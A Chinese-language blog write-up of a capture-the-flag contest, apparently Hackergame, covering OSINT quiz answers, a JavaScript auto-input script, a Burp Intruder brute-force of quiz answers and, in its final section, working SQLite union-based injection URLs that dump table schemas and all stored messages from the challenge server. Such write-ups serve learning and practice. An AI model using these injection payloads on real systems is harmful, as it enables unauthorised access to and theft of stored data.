


## 前言
[My blog](https://jackeyzzz12138.github.io/2024/11/12/wp02/)

当前分数：1500， 总排名：416 / 2460
AI：0 ， binary：0 ， general：850 ， math：0 ， web：650

> 有点进步，但进步不大hh

今年没有太多的时间打比赛了，但是确实感兴趣，还是抽了点时间做了一下，再加上刚刚结束了一段旅程，所以今天把WP补一下，也分享一下自己在做题时候的一些奇技淫巧。

## 以下按照官方题目顺序进行排列

### 签到
进入题目，感受到一股浓烈的沙威玛+suno味儿。这个完全不像是60秒就完成的任务嘛，等他失败看会怎么样。果然，link中有
```
http://xxx.xx.xx.xxx:12024/?pass=false
```
一个明显的GET方法，把 false 改成 true，flag就出来了。

### 喜欢做签到的 CTFer 你们好呀
先开始思路错了，在GitHub仓库找flag，然后才发现了这个terminal风格的[link](https://www.nebuu.la/)。然后需要折腾一下看有什么命令可以输入(输入 help)。   
PS. sudo 有彩蛋。
#### Checkin Again  
这个反而是第二个解出来的，
命令`env`中有flag。
#### Checkin Again & Again
ls列出所有文件，想进入文件夹，发现要权限，sudo发现彩蛋。
然后 `ls -a` 列出所有文件（因为可能有隐藏文件），果然有 `.flag`，cat 一下就能得到这道题flag。

### 猫咪问答（Hackergame 十周年纪念版）

> 第一次拿到全分了！

#### 1
这道题有点难找，毕竟有点古早了。开始在**百度**直接寻找未果，但是在这个[link](https://lug.ustc.edu.cn/wiki/lug/events/hackergame/)，发现有第二届信息安全大赛的存档，推算一下就是2015年啦。

#### 2
继续在那个存档页面，可以看新闻稿一个个试，也可以数一下题目确定是哪一届后再填。

#### 3
搜索“hackergame 2018”，应该可以看到其他师傅的WP，会发现那一年有道题是找书名，那么就是那本了。

#### 4
发USENIX这种A会大概率要发新闻稿宣传一下hh，遵循这个思路，搜索引擎检索“中国科学技术大学 usenix”,可以搜索到这篇论文和作者，简单看了一下汇报PPT，发现这个作者实验用了 `16 email services and 20 clients`，16 * 20 = 320(忽略了web interface)，再加16才是正确答案，我的方法请见奇技淫巧。

#### 5
紧跟实事！首先，在GitHub上搜索Linux的仓库，star最多的就是。找到maintainer文件点进去，看history。评论最多的那条就是hhh



#### 6
不会，直接奇技淫巧。

#### 奇技淫巧
Burp suite Intruder爆破，由于4，6两题都是非负整数，那么就很简单了，况且第四题有个大致的范围，你的每一次回答页面会回显你的分数，直接把分数筛出来就行了。第六题的话，也很快我选的范围是1-100000，看到分数有变化就直接停就好了。

### 打不开的盒
macOS Xcode中有能查看模型文件(.stl)的工具，直接进去看啊🤪。

### 每日论文太多了！
> 使用工具：PDFgear（真没恰饭 
> 
下载论文后搜索 `flag`,发现页面上并没有显示，但是确实有flag字样，使用PDF to txt后，并没有发现flag，再次尝试PDF to Word，发现那个位置底层有一张图片，拖出来发现woc，flag！  


### 比大小王
感觉和去年的点击flag撤回那道题很像，所以我感觉思路还是写JS，然后在console执行。  
在Claude的帮助下写了几个自动化点击的脚本，发现无论如何都比小孩哥慢。(看了官方题解，原来是限制了输入频率，可以直接修改setTimeout的时间) 我当时的思路是，用模拟键盘输入可能更快？它post里的state.Input和state.stopUpdate进行修改后可能可以解除一些输入限制？结果确实速度变快了，而且得到了flag，原因可能也是这样？希望有个有缘人来进行探讨。
``` JavaScript
function simulateKeyPress(key) {
    const event = new KeyboardEvent('keydown', {
        key: key,
        code: key,
        charCode: key.charCodeAt(0),
        keyCode: key.charCodeAt(0),
        which: key.charCodeAt(0),
        bubbles: true,
        cancelable: true
    });
    document.dispatchEvent(event);
}
var counts = 0

setInterval(() => {
    state.allowInput = true 
    state.stopUpdate = false

	var value1 = document.getElementById("value1").textContent;
	var value2 = document.getElementById("value2").textContent;

	var number1 = parseInt(value1, 10);
	var number2 = parseInt(value2, 10);
    if (number1 < number2) {
//        document.getElementById("less-than").click();
		simulateKeyPress('ArrowLeft')
		counts++
    } else {
//        document.getElementById("greater-than").click();
		simulateKeyPress('ArrowRight')
		counts++
    }
    
    if (counts == 100) {
    	clearInterval()
        console.log("stop")
    }
}, 80);

```

### 旅行照片4.0

写在前面：随着移动互联网的发展，很多常用的移动软件也拥有了非常丰富的地理位置数据，解题中用到了一些相关的app请看具体题解。

#### 1-2

把图片放到百度去搜索可以很容易得到具体的位置。  


ACG相关内容很容易link到哔哩哔哩，于是你会顺藤摸瓜找到科大ACG的官方运营账号，翻看他的动态。  


#### 3-4
第一张图，放在搜索引擎搜图大概率得不到什么有价值的信息，但你可以在右下角的垃圾桶上看到 `六安xx`，好的已经确定城市了。可以在**小红书**直接搜索六安公园相关的内容就行了，也可以通过路上的彩色线条来缩小范围。

第二张图，放在搜索引擎中可以搜到一个大致的内容，大概在三峡的一个景观，但是不知道具体在那个景点，而且这个石头好像叫截流石。小红书上继续深入查询，我看到的好像是一个大叔发的视频，知道了这个景点名字。

#### 5-6
首先通过题目可以得知关键信息“四编组动车”, Google it, 可以发现一个[link](https://www.china-emu.cn/EN/Trains/Model/Detail-26012-201-S.html),很清楚的标出了这个第六题的答案。

解答第五题之前你需要先知道这个列车也叫做怀密号，还有它的行驶路线（用互联网搜索），从图中可以看出密集的铁轨大概率就是车站，那么就通过卫星地图对每个站点进行搜索，比对就行了。
> 车站附近的医院也没那么多，或许试错成本也不太高？

### PaoluGPT
> 使用工具：Hackbar

**basic**  (鸣谢Hello-ctf，探姬老师)
  

下载题目源码后发现，其实是一道SQL注入题，而且用的还是SQLite（有些数据库有自己的语言写法）。所以两个flag应该可以一起得到。  
从题目得知flag应该有两个且就在聊天记录中，随机点进一个聊天记录可以看到url此时是这种类型

```
//隐藏了具体url和conversation_id
https://xxx.xx:8443/view?conversation_id=blabla
```
联想到源代码中的
```python
results = execute_query(f"select title, contents from messages where id = '{conversation_id}'")
```
利用单引号的闭合可以很快构造一些SQL语句来利用，譬如
```
// dump 出列数，就这道题来说就是2，其实后端代码也有说是两个返显点
https://xxx.xx:8443/view?conversation_id=blabla' order by 2 --

// Hackbar dump tables，其实后端代码也有，但是请记住这个group_concat 函数。你可以得到这个table名字
https://xxx.xx:8443/view?conversation_id=blabla' union select group_concat(name),2 from sqlite_master WHERE type='table'--

// Hackbar dump column names，你可以得到每个列的名字和他的变量类型。
https://xxx.xx:8443/view?conversation_id=blabla' union select group_concat(sql),2 from sqlite_master WHERE type='table'--

```
上面的是一种常规思路吧，其实题目源代码很多都有不需要通过注入得到，那么接下来一把梭。
```
https://xxx.xx:8443/view?conversation_id=blabla'union select group_concat(contents),2 from messages--
```
从messages中取出contents列的所有内容，这时你的浏览器应该回了很多内容，这时ctrl+f寻找吧。

## 后记
如有错误，欢迎指正，也欢迎探讨各种Geek things。